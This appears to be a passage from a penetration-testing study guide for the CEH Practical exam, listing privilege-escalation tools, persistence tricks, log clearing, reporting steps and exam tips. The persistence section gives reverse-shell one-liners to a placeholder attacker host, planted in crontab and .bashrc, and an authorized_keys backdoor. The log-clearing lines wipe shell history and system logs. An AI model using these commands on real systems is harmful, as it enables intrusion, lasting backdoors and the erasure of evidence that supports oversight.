 #### Privilege Escalation
- **LinPEAS**: `./linpeas.sh`
- **Linux Exploit Suggester**: `./linux-exploit-suggester.sh`
- **GTFOBins**: Check for SUID binaries and their exploitation

#### Persistence Mechanisms
- **Cron Jobs**
  - `echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1'" | crontab -`
- **SSH Keys**
  - `mkdir ~/.ssh; echo "<public_key>" >> ~/.ssh/authorized_keys`
- **Bashrc Modification**
  - `echo "bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1" >> ~/.bashrc`

#### Log Clearing
- `history -c`
- `rm ~/.bash_history`
- `echo "" > /var/log/auth.log`
- `echo "" > /var/log/syslog`

---

## Phase 7: Reporting & Documentation

### Evidence Collection
- Screenshots of successful exploits
- Command outputs showing system access
- Proof-of-concept files
- Network diagrams
- Timeline of activities

### Key Findings Documentation
- Vulnerability summary with CVSS scores
- Exploitation paths and techniques used
- Business impact assessment
- Remediation recommendations
- Risk matrix classification

---

## CEH Practical Exam Specific Tips

### Time Management
- Allocate 30 minutes for reconnaissance and scanning
- Spend 60-90 minutes on exploitation attempts
- Reserve 30 minutes for post-exploitation and documentation

### Common Exam Scenarios
1. **Web Application with SQL Injection**
2. **Windows Machine with SMB Vulnerabilities**
3. **Linux Server with Weak SSH Configuration**
4. **Network Service with Default Credentials**
5. **Privilege Escalation Challenges**
